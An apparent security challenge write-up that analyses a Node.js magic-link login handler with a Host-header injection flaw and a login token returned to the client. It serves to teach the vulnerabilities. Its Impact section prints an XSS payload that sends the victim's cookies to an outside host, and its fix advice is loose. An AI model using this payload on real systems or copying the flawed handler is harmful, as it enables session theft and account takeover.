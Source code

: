# Code Analysis - Case Study #4 (Feb 23-28, 2025)

## Overview
Tweet URL: https://x.com/intigriti/status/1891068269089399015

## Code Analysis
This code has 2 vulnerabilities:
1. The `magicLinkUrl` variable is not sanitized before being used in the email body. This can be exploited by an attacker to inject malicious code into the email.
2. The `validationToken` variable is sent back to the client without any sanitization. This can be exploited by an attacker to steal the token and impersonate the user.

```javascript
    const magicLinkUrl = `https://${req.headers.host}/login/verify/${token}`;
    const validHost = /^([a-z0-9\-]+\.)?example\.com/.test(req.headers.host);

    // Send magic link email
    try {
        if (validHost) {
            const transporter = nodemailer.createTransport({
                service: 'gmail',
                auth: {
                    user: 'your-email@example.com',
                    pass: 'your-email-password'
                }
            });

            await transporter.sendMail({
                from: 'support@example.com',
                to: email,
                subject: 'Your login link',
                html: `<p>Click the link below to log in to your account:</p>
                        <a href="${magicLinkUrl}">Login to your account</a>` // Here is the vulnerability
            });

            res.json({
                success: true,
                message: 'Authentication link sent successfully!',
                email,
                validationToken: token, // Here is the vulnerability
            });
        } else {
            res.status(400).send({ success: false, message: 'Error! Request rejected!' });
        }
    } catch (error) {
        res.status(500).send({ success: false, message: 'Error! Failed to send authentication link!' });
    }
```

## Impact
An attacker can exploit these vulnerabilities to:
- Payload for the header host injection: `somexss.example.com/"> <script>new Image().src = 'https://vuln.me/?cookie=' + encodeURIComponent(document.cookie);</script>`
- Steal the `validationToken` and impersonate the user. (You need only email to access the account)

## Solving the Issue
To prevent these vulnerabilities, you should:
1. Sanitize the `magicLinkUrl` variable before using it in the email body.
2. Don't send sensitive information like `validationToken` back to the client without proper sanitization.
3. Implement proper input validation and sanitization to prevent XSS and token theft attacks.